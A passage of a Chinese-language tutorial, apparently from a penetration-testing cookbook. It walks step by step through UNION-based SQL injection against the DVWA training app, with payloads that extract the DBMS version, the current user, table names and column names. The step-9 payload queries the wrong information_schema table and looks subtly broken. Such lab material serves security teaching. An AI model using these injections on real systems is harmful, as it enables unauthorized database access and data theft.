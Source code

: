 6.  现在，我们知道了请求由两列。让我们尝试是否能使用 UNION 语句来提取一些信息。现在将`id`的值设为`1' union select 1,2 -- '`并点击`Excecute`。

    ![](img/6-7-2.jpg)

7.  这意味着我们可以在 UNION 查询中请求两个值。那么试试 DBMS 的版本和数据库用户如何呢？将`id`设为`1' union select @@version,current_user() -- '`并点击`Execute`。

    ![](img/6-7-3.jpg)

8.  让我们查找一些有关的东西，例如应用的用户。首先，我们需要定位用户表，将`id`设置为`1' union select table_schema, table_name FROM information_schema.tables WHERE table_name LIKE '%user%' -- '`。

    ![](img/6-7-4.jpg)
    
9.  好的，我们知道了数据库（或Schema）叫做`dvwa`，我们要查找的表叫做`users`。因为我们只有两个地方来设置值，我们需要知道的哪一列对我们有用。将`id`设置为`1' union select column_name, 1 FROM information_schema.tables WHERE table_name = 'users' -- '`。

